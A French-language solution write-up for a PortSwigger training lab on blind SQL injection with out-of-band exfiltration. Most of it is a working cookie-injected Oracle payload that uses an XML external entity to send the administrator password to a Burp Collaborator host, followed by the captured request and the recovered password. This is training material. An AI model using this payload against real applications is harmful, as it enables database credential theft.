 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

## Solution

On reprend le payload du lab `Blind SQL injection with out-of-band interaction` pour concat un `SELECT` sur le password de l'username `administrator`:

```html
Cookie: TrackingId=c'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+LIMIT+1)||'.rzus2t0mmqdbbt7h3dxvinhs2j8bw9ky.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

En clair, le payload est :

```sql
c' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users LIMIT 1)||'.rzus2t0mmqdbbt7h3dxvinhs2j8bw9ky.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

Ce qui nous donne dans Burp Collaborator :

```html
GET / HTTP/1.0
Host: yh5pblds733yhjktqiqm.rzus2t0mmqdbbt7h3dxvinhs2j8bw9ky.oastify.com
Content-Type: text/plain; charset=utf-8
```

Donc le password de l'admin est `yh5pblds733yhjktqiqm`.